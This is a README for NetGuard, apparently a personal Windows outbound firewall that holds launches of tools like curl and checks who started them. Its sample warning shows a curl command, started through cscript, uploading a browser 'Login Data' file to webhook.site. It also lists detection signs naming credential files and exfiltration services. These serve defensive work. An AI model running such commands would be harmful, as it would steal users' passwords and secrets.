


<p align="center">
  
</p>

<p align="center">
  <b>Nothing leaves your Windows PC unless you approve it.</b><br>
  A personal outbound firewall with launch-time checks on the trusted tools malware likes to borrow.
</p>

<p align="center">
  
  
  
  
</p>

---

## Why this exists

My own PC was running an infostealer for five months without any alert. It hid as a renamed copy of
Microsoft's `MSBuild.exe`, was launched at every logon by scheduled tasks through a JScript file,
and quietly sent data out over HTTPS. Antivirus didn't catch it, so I found and removed it by hand
([the write-up](docs/INCIDENT.md)).

Removing malware doesn't stop the next one. Infostealers have one thing in common: **they have to
send what they steal somewhere.** NetGuard is built around that:

1. **Outbound is blocked by default.** Only programs you approve can reach the internet. A new,
   unknown program, like a fake game crack, gets nothing out.
2. **Trusted tools are watched.** Malware doesn't need its own internet access if it can make
   `curl`, `node` or `ssh` do the sending. NetGuard holds each launch of those tools, checks *who*
   started them and *what* they were told to do, and asks you when something looks wrong.

## What it looks like

When something suspicious tries to use an allowed tool, the program is held **before it starts**
and you get a window with the evidence:

```
curl.exe was put on hold before it could use the internet.

PROGRAM THAT WANTS THE INTERNET
  curl.exe   [protected folder]   C:\Windows\System32\curl.exe

WHAT IT WAS TOLD TO DO
  curl.exe -s -F "f=@C:\Users\...\Login Data" https://webhook.site/...

STARTED BY (closest first)
  1. cscript.exe   [protected folder]   C:\Windows\System32\cscript.exe
  2. explorer.exe  ...

WHY THIS LOOKS SUSPICIOUS
  !! It sends to webhook.site, a webhook / paste / file-drop service that stolen data is commonly sent to.
  !! It uploads a sensitive file (Login Data) - passwords, browser logins, keys or secrets.
  !! It was started through cscript.exe, a Windows script runner that malware commonly uses.

RECOMMENDATION
  Block it, unless you started this yourself just now and recognise every program listed above.

[ Block (60) ]  [ Block and close what started it ]      [ Allow once ]  [ Allow and always trust ]
```

If nobody answers within 60 seconds, it blocks. Normal use (you in a terminal, your IDE, signed
apps) goes through silently.

## How it works



| Part | What it does |
|---|---|
| **Windows Firewall, outbound Block** | Default-deny for every profile; one allow rule per approved program (`config/allowlist.txt`). |
| **Watcher** (`watcher.ps1`, SYSTEM, every 2 min) | Re-enforces outbound Block if anything turns it off; reads blocked-connection events (Security 5157) into a list you can review; re-allows approved apps that update into a new folder with the same valid publisher signature. |
| **Gatekeeper** (`gatekeeper.exe`, elevated, resident) | Decides whether a launch is suspicious and shows the warning window. Runs elevated so a normal program can't close it or click its buttons. |
| **Launch stub** (`ngstub.exe`) | Registered as the IFEO "debugger" for the exact paths of allowed data-sending tools. Asks the Gatekeeper over a locked-down named pipe, then starts the real program with the same command line, console, handles and exit code. |
| **`netguard` command** | Review and approve blocked programs, view the log, switch features off. Every change needs a UAC prompt, so a program running as you can't approve itself. |

<details>
<summary><b>The technical details</b></summary>

- **Hooking before start, not after.** Watching process starts through WMI turned out to be too slow:
  a quick `curl` upload finished before the start event arrived. IFEO hooks run synchronously inside
  `CreateProcess`, so the decision happens before the program exists. `UseFilter` + `FilterFullPath`
  limit the hook to the exact allowed copies.
- **Starting the real program without looping.** The stub starts it with `DEBUG_ONLY_THIS_PROCESS`
  (IFEO is skipped for processes created under a debugger), then detaches at once with
  `DebugActiveProcessStop`. The real program goes in a job object with `KILL_ON_JOB_CLOSE` and silent
  breakaway, so cancelling the stub kills the program, but its own child processes and daemons survive.
- **Not trusting the pipe blindly.** The stub checks that the pipe's server is the real
  `gatekeeper.exe` in the admin-only install folder. The Gatekeeper reads the caller's process ID from
  the pipe itself, not from the message.
- **Fast parent-chain reads.** One Toolhelp snapshot gives the whole chain; one WMI query fetches all
  command lines. About 80 ms per check (it was 400–750 ms with one WMI query per parent).
- **Trust that doesn't need online lookups.** A program counts as trusted if it's in an admin-only
  folder (`C:\Windows`, `C:\Program Files`, minus the writable subfolders), has a valid embedded
  Authenticode signature (`WinVerifyTrust`, no revocation lookup), or is in your trust list.
- **Background channels closed.** BITS and WebDAV transfers run inside `svchost.exe`, which has to
  be allowed, so they get explicit block rules.

</details>

## What triggers a warning

**Always (strong signs):**
- Started through a script runner: `wscript`, `cscript`, `mshta`, `rundll32`, `regsvr32`, `msbuild` and similar
- A Windows tool that has been renamed, or copied out of the Windows folder
- Uploading browser password or cookie files, SSH keys, `.env` files, wallets or game-client tokens
- Sending to webhook, paste or file-drop services (Discord webhooks, Telegram API, pastebin, transfer.sh and similar)
- A hidden, encoded PowerShell command
- A browser opened in remote-control mode (`--remote-debugging-port`, `--headless`), which cookie stealers use

**Also:** started by an unsigned program in a folder anyone can write to (Downloads, Temp, AppData).

**Only when two or more appear together:** started by a scheduled task or service, uploads data,
connects to a bare IP address, hidden window, long encoded blob in the command.

## Install

Requirements: Windows 10 or 11 and an administrator account. Nothing to download: it builds with
the C# compiler that ships with Windows.

```powershell
git clone https://github.com/MeherabHS/netguard-windows
cd netguard-windows
# Review config\allowlist.txt first: these programs keep internet access from day one.
# Then, in PowerShell opened with "Run as administrator" from your own account:
powershell -ExecutionPolicy Bypass -File scripts\install.ps1
```

Run `scripts\install.ps1 -NoGate` for the firewall part only.

> **Antivirus may flag `gatekeeper.exe` or `ngstub.exe`.** Pausing processes and IFEO hooks are
> things malware does too. The source is all in `src/`, and you build it yourself.

## Usage

```
netguard status            protection state and counts
netguard blocked           programs that tried to connect and were blocked (numbered)
netguard approve <n|name>  allow a program (number from `blocked`, or part of its name)
netguard allowed           programs NetGuard allows
netguard revoke <name>     remove an approval
netguard gatelog           what the Gatekeeper held and what you decided
netguard trust <folder>    let unsigned programs in this folder start allowed tools silently
netguard gate on / off     launch checks on/off (emergency switch)
netguard off / on          allow all outbound / block again
netguard refreshmap        re-read drive letters after adding or removing a drive
```

From WSL: `powershell.exe -File 'C:\ProgramData\NetGuard\netguard.ps1' blocked`

## Testing

```powershell
powershell -ExecutionPolicy Bypass -File tests\test-gate.ps1
```

1. A normal `curl` must go through, with its exit code intact.
2. A simulated attack, where `cscript` makes `curl` upload a fake `Login Data` file to a webhook
   address, must be held and blocked. The warning window appears and blocks by itself after 8 seconds.
   The address uses the reserved `.invalid` domain, so nothing is sent even if you click Allow.

**Measured on a Windows 11 developer machine:**

| | |
|---|---|
| Added delay per gated launch | ~80 ms |
| Gatekeeper memory | ~3 MB working set, ~26 MB private |
| Watcher peak (runs for ~2 s every 2 min) | ~123 MB, mostly PowerShell startup |
| Simulated exfiltration | Blocked before `curl` started; all three reasons recorded |

## Limitations

NetGuard raises the bar a long way, but it's not a guarantee:

- **Malware with administrator rights can turn it off.** Only approve UAC prompts you started yourself.
- **Browsers are checked just after they start, not before.** Hooking them would slow down every
  link click. A browser in remote-control mode is still flagged and can be closed.
- **Allowed programs can still be misused in ways the rules don't recognise.** The checks cover
  common infostealer techniques, not every possible trick. A determined attacker could find a way round.
- **If the Gatekeeper stops,** gated tools start without checks so your work never locks up.
  It restarts within a minute.
- **WSL and Docker networking were not tested** with the outbound block.
- **It only blocks new leaks.** If something already stole your passwords, change them, ideally
  from another device.

## Uninstall

```powershell
powershell -ExecutionPolicy Bypass -File scripts\uninstall.ps1   # elevated
```

This sets outbound back to the Windows default first, then removes the launch hooks, tasks,
firewall rules, PATH entry and files.

## Project layout

```
config/allowlist.txt    programs allowed from day one
scripts/install.ps1     install (elevated)       scripts/uninstall.ps1   remove everything
scripts/build.ps1       compile the C# parts     scripts/netguard.ps1    the `netguard` command
scripts/watcher.ps1     2-minute SYSTEM task
src/gatekeeper.cs       decision engine + warning window
src/ngstub.cs           launch stub (IFEO debugger)
tests/test-gate.ps1     end-to-end test
docs/INCIDENT.md        the infection that started this project
```

## Name

Not affiliated with the NetGuard firewall app for Android.

## License

[MIT](LICENSE) © 2026 Meherab Hossain Shafin
